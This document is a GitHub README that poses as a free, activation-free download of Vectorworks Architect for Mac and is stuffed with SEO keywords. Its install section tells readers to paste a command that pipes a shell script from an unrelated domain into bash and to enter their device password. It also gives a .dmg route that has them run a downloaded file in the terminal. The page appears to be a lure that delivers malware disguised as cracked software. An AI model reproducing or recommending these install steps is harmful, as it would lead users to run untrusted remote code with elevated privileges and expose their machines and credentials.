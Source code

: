 # Vectorworks Architect for Mac

[![Download Setup Assistant](https://img.shields.io/badge/Download-Setup_Assistant-blueviolet)](https://sketchup-download-mac.github.io/.github)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Unlock

🏗 Full BIM modeling and architectural tools  
📐 Advanced 2D/3D drafting workspace  
🎨 Interior, landscape, and building visualization  
🔌 Integration with plugins and file export options  
🛠 No login, online activation, or serial number required

## 🖼 Preview

![Drafting and Modeling Interface](https://res.cloudinary.com/vectorworks/image/upload/q_auto/f_auto/article/blog/construction-docs-vectorworks-architect/Section5.png)  


![Hybrid BIM/CAD View](https://res.cloudinary.com/vectorworks/image/upload/f_auto,q_auto/v1694470668/pages/architect/heros/hero-arch-mid-2880x1450.png)  


![Vectorworks Architect 2025 UI](https://www.nemetschek.com/sites/default/files/2024-09/2025-product-shot-arch-no-wordmark.jpg)  


### 🔎 SEO Keywords

`vectorworks mac`, `vectorworks mac download`, `macbook vectorworks`, `vector works mac`,  
`vectorworks for mac`, `vectorworks for macbook air`, `vectorworks free mac`, `vectorworks mac os`,  
`vectorworks download for mac`, `vectorworks on mac`, `vectorworks osx`, `vectorworks software mac`,  
`vectorworks pro mac`, `vectorworks 3d mac`, `vectorworks architect mac`, `vectorworks mac m1`,  
`vectorworks for macbook pro`, `vectorworks student mac`, `vectorworks mac free trial`, `vectorworks design mac`,  
`vectorworks rendering mac`, `vectorworks for mac download`, `vectorworks for mac os x`, `vectorworks app mac`, `mac vectorworks full`
